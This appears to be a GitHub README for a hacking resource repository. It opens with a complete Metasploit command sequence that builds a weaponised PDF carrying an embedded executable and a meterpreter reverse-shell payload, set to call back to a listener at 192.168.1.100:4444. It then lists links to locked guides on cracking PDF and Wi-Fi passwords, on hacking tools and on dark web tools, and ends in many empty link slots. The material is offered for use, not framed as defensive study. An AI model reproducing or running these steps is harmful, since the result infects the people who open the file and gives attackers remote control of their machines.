 ```
step:-1 msfconsole

# Search for PDF exploits
step:-2 search pdf

# Use the selected exploit
step:-3 use exploit/windows/fileformat/adobe_pdf_embedded_exe

# Set the payload
step:-4 set payload windows/meterpreter/reverse_tcp

# Configure the payload options
step:-5 set LHOST 192.168.1.100
step:-6 set LPORT 4444

# Set the output file name
step:-7 set FILENAME malicious.pdf

# Set the path to the miscellaneous file
step:-8 set SRC /path/to/your/miscellaneous/file.exe

# Generate the malicious PDF
step:-9 exploit
```
<!--
<img src="https://github.com/Divyanshu-85/Required-Document/blob/main/Ai-img/1000180561-removebg-preview.png" height="200px">

-->
# All the Pdf are locked 🔐 
<hr>
  Hello 👋 
<hr>
<img src="https://github.com/CodeCr4cker/Cyber-Boss/blob/main/Doc-pic/11.-Aircrack-ng.jpg">
<hr>
1:- Device's Requirement for best hacking system <a href="https://github.com/Divyanshu-85/Cyber-Boss/blob/main/Doc-pic/IMG_20250131_12212759.jpg" > <B>laptop or PC</B></a>
<hr>
2:- Video to <a href="https://github.com/Divyanshu-85/Cyber-Boss/blob/main/Video/crack%20password.mp4">Crack PDF Password</a>
<hr>
3:- PDF to <a href="https://github.com/Divyanshu-85/Cyber-Boss/blob/main/Pdf/Enable%20the%20Monitor%20mode%20in%20wifi%20Adopter%20using%20Kali%20Linux..locked.pdf">Enable the monitor mode using Kali Linux</a> step by step 
<hr>
4:- Important <a href="https://github.com/Divyanshu-85/Cyber-Boss/blob/main/Doc-pic/132945cd6ad3c674e9694f68929566ce.jpg">CMD </a> of Kali Linux 
<hr>
5:- <a href="https://github.com/Divyanshu-85/Cyber-Boss/blob/main/Video/VID-20250131-WA0000.mp4">Video</a> of using the CMD in Kali Linux 
<hr>
6:- what is Rainbow table attack.....
    what is spyware......
    what is bluejacking.....
    <a href="https://github.com/CodeCr4cker/Cyber-Boss/blob/main/Pdf/kali.locked.pdf"> PDF</a>
<hr>
7:- Hacking <a href="https://github.com/CodeCr4cker/Cyber-Boss/blob/main/Doc-pic/c32354c90b866b2c43bea92b1edfd8c0.jpg"> Tool </a> List
<hr>
8:- Tool <a href="https://github.com/CodeCr4cker/Cyber-Boss/blob/main/Doc-pic/IMG-20250208-WA0032.jpg">For</a> Hacker's
<hr>
9:- Type of <a href="https://github.com/CodeCr4cker/Cyber-Boss/blob/main/Doc-pic/IMG-20250208-WA0034.jpg">Cyber</a> Attack 
<hr>
10:- Type of <a href="https://github.com/CodeCr4cker/Cyber-Boss/blob/main/Doc-pic/IMG-20250208-WA0038.jpg">IP</a> Address 
<hr>
11:- What is the use of <a href="https://github.com/CodeCr4cker/Cyber-Boss/blob/main/Doc-pic/IMG-20250208-WA0041.jpg">IP</a> Address while hacking
<hr>
12:- PDF to crack <a href="https://github.com/CodeCr4cker/Cyber-Boss/blob/main/Pdf/wifi%20crack.locked.pdf ">wifi</a> Password full command 
<hr>
13:- Dark web <a href="https://github.com/CodeCr4cker/Cyber-Boss/blob/main/Pdf/100%2BDark%20Web%20Tools.pdf ">tools</a> pdf
<hr>
14:- Google <a href="https://github.com/CodeCr4cker/Cyber-Boss/blob/main/Pdf/Google%20Dorking.pdf">Dorking</a> pdf
<hr>
15:- list of linux <a href="https://github.com/CodeCr4cker/Cyber-Boss/blob/main/Pdf/Linux%20Commands%20cheatsheet.pdf ">command</a> Pdf
<hr>
16:- Metasploit <a href="https://github.com/CodeCr4cker/Cyber-Boss/blob/main/Pdf/Metasploit.pdf">code</a> pdf
<hr>
17:- Some tools of Kali Linux <a href="https://github.com/CodeCr4cker/Cyber-Boss/blob/main/Pdf/TOOLS.pdf">pdf</a> 
<hr>
18:- John the rapper complete <a href="https://github.com/CodeCr4cker/Cyber-Boss/blob/main/Pdf/John%20the%20Ripper%20A%20Pentester%20Guide.pdf">code</a> and instruction.
<hr>
19:- Wi-Fi hacking instruction <a href="https://github.com/CodeCr4cker/Cyber-Boss/blob/main/Pdf/Complete%20Wifi%20Hacking%20.pdf ">and</a> code.
<hr>
20:- Wi-Fi hacking instruction<a href="https://github.com/CodeCr4cker/Cyber-Boss/blob/main/Pdf/A%20Red%20Teamer%E2%80%99s%20Guide%20to%20Wi-Fi%20Exploits.pdf ">and</a> code (type-2).
<hr>
21:- <a href=" "></a> 
<hr>
22:- <a href=" "></a> 
<hr>
23:- <a href=" "></a> 
<hr>
24:- <a href=" "></a> 
<hr>
25:- <a href=" "></a> 
<hr>
26:- <a href=" "></a> 
<hr>
27:- <a href=" "></a> 
<hr>
28:- <a href=" "></a> 
<hr>
29:- <a href=" "></a> 
<hr>
30:- <a href=" "></a> 
<hr>
31:- <a href=" "></a> 
<hr>
32:- <a href=" "></a> 
<hr>
33:- <a href=" "></a> 
<hr>
34:- <a href=" "></a> 
<hr>
35:- <a href=" "></a> 
<hr>
36:- <a href=" "></a> 
<hr>
37:- <a href=" "></a> 
<hr>
38:- <a href=" "></a> 
<hr>
